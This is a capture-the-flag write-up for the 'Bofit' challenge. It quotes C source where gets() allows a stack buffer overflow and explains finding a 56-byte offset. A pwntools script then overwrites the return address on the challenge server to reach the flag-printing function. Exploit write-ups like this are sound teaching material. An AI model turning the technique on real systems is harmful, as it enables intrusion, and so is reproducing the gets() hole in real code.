




# Bofit

## Challenge

Because Bop It is copyrighted, apparently

nc umbccd.io 4100

Author: trashcanna

## Solution

We want to jump here:

```c
void win_game(){
    char buf[100];
    FILE* fptr = fopen("flag.txt", "r");
    fgets(buf, 100, fptr);
    printf("%s", buf);
}
```

Using Redare2, the address is 0x00401256.



```c
int play_game(){
    char c;
    char input[20];
    int choice;
    bool correct = true;
    int score = 0;
    srand(time(0));
    while(correct){
        choice = rand() % 4;
        switch(choice){
            case 0:
                printf("BOF it!\n");
                c = getchar();
                if(c != 'B') correct = false;
                while((c = getchar()) != '\n' && c != EOF);
                break;

            case 1:
                printf("Pull it!\n");
                c = getchar();
                if(c != 'P') correct = false;
                while((c = getchar()) != '\n' && c != EOF);
                break;

            case 2:
                printf("Twist it!\n");
                c = getchar();
                if(c != 'T') correct = false;
                while((c = getchar()) != '\n' && c != EOF);
                break;

            case 3:
                printf("Shout it!\n");
                gets(input);
                if(strlen(input) < 10) correct = false;
                break;
        }
        score++;
    }
    return score;
}
```

In the above function, all the cases are implemented safely with `c = getchar();` except for "Shout it!", which uses `gets()`. `gets()` does not check the input length and is prone to buffer overflows.

We can play the game until "Shout it!" appears and pass in the output of `msf-pattern_create -l 1000` as the input. When the game ends and the function returns, the app crashes and we can see the saved RIP value.



We know the offset is 56.



We have the info we need to craft our payload! The only trick here is to implement some logic to "play the game" until "Shout it!" is used. After sending our payload and overwriting the RIP, we need to give a "wrong" input so that the function returns.

```python
from pwn import *

ret = 0x00401256
offset = 56
payload = b""
payload += b"A" * offset
payload += p32(ret)
print(payload)

conn = remote('umbccd.io', 4100)

conn.recvuntil('BOF it to start!')

line = conn.recvline()
while b'Shout it!' not in line:
    line = line.decode()
    conn.send(line)
    line = conn.recvline()

conn.send(payload + b"\n")
conn.recvline()
conn.send(b"A" + b"\n")
print(conn.recv())

conn.close()
```



